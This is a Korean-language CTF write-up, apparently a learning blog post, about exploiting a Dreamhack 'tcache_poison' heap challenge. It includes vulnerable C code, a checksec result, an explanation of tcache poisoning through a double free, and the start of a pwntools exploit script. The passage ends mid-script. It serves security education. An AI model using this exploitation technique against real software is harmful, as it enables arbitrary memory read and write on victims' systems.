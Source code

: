 ```c
      case 3:
        printf("Content: %s", chunk);
        break;
      case 4:
        printf("Edit chunk: ");
        read(0, chunk, size - 1);
        break;
      default:
        break;
    }
  }
  return 0;
}
```

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
		<a href="/assets/images/TIL220820/Untitled (2).png">
			<img src="/assets/images/TIL220820/Untitled (2).png" width="300">
  	 	</a>
	</p>
    
    - **NX, FULL RELRO**가 적용되어 있다. → **Hook overwrite**을 시도하자.
- 임의의 크기로 chunk를 allocate 및 free할 수 있으며, chunk의 값을 조작하고 출력할 수도 있다. → **DFB**를 활용할 수 있다.

### Tcache Poisoning

**Tcache poisoning**은 tcache를 조작하여 **임의 주소에 chunk를 allocate**하는 공격 기법을 말한다.

**DFB**가 일어나 하나의 chunk가 중복되어 tcache에 들어가게 된 후, 그 chunk를 **reallocate**한다면 그 chunk는 **allocated chunk이면서 동시에 freed chunk**가 된다.

이때 해당 allocated chunk의 값을 원하는 대로 수정할 수 있다면, 이 chunk의 `fd`**와** `bk`**를 원하는 대로 수정**할 수 있게 된다. → **tcache에 임의 주소를 추가**할 수 있다. → **임의 주소에 chunk를 allocate**할 수 있다. → **임의 주소 읽기 및 쓰기**가 가능하다.

### Exploit - Tcache Poisoning을 이용해 libc_base 알아내기

```python
from pwn import *

p = process("./tcache_poison")
#p = remote("host3.dreamhack.games", 18280)
gdb.attach(p)
e = ELF("./tcache_poison")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#libc = ELF("./libc-2.27.so")

def allocate(size, content):
    p.sendlineafter("Edit\n", "1")
    p.sendlineafter(": ", str(size))
    p.sendafter(": ", content)

def free():
    p.sendlineafter("Edit\n", "2")

def print_chunk():
```